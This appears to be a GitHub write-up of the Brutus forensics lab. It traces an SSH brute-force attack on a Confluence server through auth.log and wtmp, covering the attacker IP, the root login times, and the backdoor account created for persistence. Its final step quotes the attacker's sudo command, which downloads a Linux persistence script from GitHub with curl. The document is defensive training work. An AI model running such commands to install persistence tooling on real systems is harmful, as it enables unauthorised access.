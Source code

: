 # Brutus Lab Investigation  

## Objective  
The **Brutus Lab Investigation** focused on **analyzing SSH authentication logs (auth.log) and wtmp logs** to track an attack on a Confluence server. The attacker **brute-forced SSH credentials, escalated privileges, and created a backdoor account** for persistence. The primary goal was to identify attack patterns, detect unauthorized access, and correlate forensic evidence.  

### Skills Learned  

- **Log Analysis** – Investigating `auth.log` and `wtmp` for security incidents  
- **SSH Brute-Force Detection** – Identifying failed login attempts and attacker IPs  
- **Privilege Escalation Analysis** – Tracking unauthorized privilege gains  
- **Persistence Detection** – Recognizing attacker-created backdoor accounts  
- **Threat Intelligence Correlation** – Mapping findings to MITRE ATT&CK techniques  

### Tools Used  

- **Linux Command Line** – Log analysis (`grep`, `cat`, `awk`, `sed`)  
- **auth.log & wtmp** – Investigating login attempts and session tracking  
- **MITRE ATT&CK Framework** – Mapping attacker techniques (`T1136.001`)  
- **cURL** – Tracking malicious script downloads  

## Steps  

### **1. Identifying the Attacker's IP**  
- Analyzed **auth.log** for brute-force attempts  
- Identified repeated failed login attempts from **`65.2.161.68`**  

![Brute-force Attack Log](https://imgur.com/YRqEdFH.png)  
*Ref 1: Auth.log showing failed SSH login attempts from attacker IP*  

### **2. Tracking the Attack Timeline**  
- Discovered **successful login using "root" account**  
- Extracted **manual login timestamp: `2024-03-06 06:32:45`**  
- Identified **assigned session ID: `37`**  

![Attack Timeline](https://imgur.com/Qy2pA10.png)  
*Ref 2: Log analysis revealing successful root login and assigned session ID*  

### **3. Persistence Mechanism & Privilege Escalation**  
- Investigated **new user creation for persistence** (`cyberjunkie`)  
- Mapped persistence to **MITRE ATT&CK technique `T1136.001`**  
- Detected **attacker session termination at `2024-03-06 06:37:24`**  

![Persistence Mechanism](https://imgur.com/n3ygooB.png)  
*Ref 3: Evidence of attacker creating the "cyberjunkie" account for persistence*  

### **4. Tracking Malicious Activity with Sudo Logs**  
- Identified **attacker using sudo to download a script**  
- Extracted full command:  
  ```bash
  /usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
